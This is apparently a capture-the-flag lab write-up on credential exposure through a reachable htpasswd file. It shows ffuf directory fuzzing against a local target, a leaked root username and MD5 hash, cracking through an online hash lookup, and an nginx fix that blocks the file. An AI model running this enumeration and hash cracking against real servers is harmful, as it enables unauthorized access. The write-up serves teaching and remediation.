

# Credentials Exposure via htpasswd

## 📖 Vulnerability Explanation
Credential exposure is a misconfiguration vulnerability that happens when private authentication information is exposed to non authorized users.

## ⚙️ Exploitation Process

- Enumerate the web directories via web fuzzing.
```
ffuf -u 'http://localhost:9090/FUZZ' -w /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt -fs 975

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost:9090/FUZZ
 :: Wordlist         : FUZZ: /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 975
________________________________________________

admin                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 4ms]
audio                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 2ms]
css                     [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
errors                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
favicon.ico             [Status: 200, Size: 1406, Words: 2, Lines: 2, Duration: 0ms]
fonts                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 5ms]
images                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
includes                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 1ms]
js                      [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 4, Duration: 0ms]
whatever                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 12ms]
:: Progress: [20478/20478] :: Job [1/1] :: 12500 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

---

We find a htpasswd file present in the ```whatever/``` directory. After downloading the file, we can see a username and hash combination.
```

root:437394baff5aa33daa618be47b75cb49
```

---
- Check the hash value:

---

Use the credentials obtained to login on the ```admin/``` directory and get the flag.

## 🧰 Additional Resources
In order to enumerate web directories we used ```ffuf```, a compiled web fuzzer written in go.

- https://github.com/ffuf/ffuf

The wordlist we used part of the SecLists project, which is a recognised repository with multiple wordlists for various purposes.

- https://github.com/danielmiessler/SecLists.git

We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
The file ```htpasswd``` or any file containing credentials should never be exposed to unauthorized users. Configuring nginx to restrict access to this file is recommended.

## ☝️🤓 Advanced explanation
A properly configured nginx config file could look like this:
```
server {
    listen 80;
    server_name bornToSec.com;

    root /var/www/html;

    location /admin/ {
        auth_basic           "Restricted Area";
        auth_basic_user_file /etc/nginx/.htpasswd;
    }

    location ~ /\.htpasswd {
        deny all;
    }

    location / {
        index index.php;
    }
}
```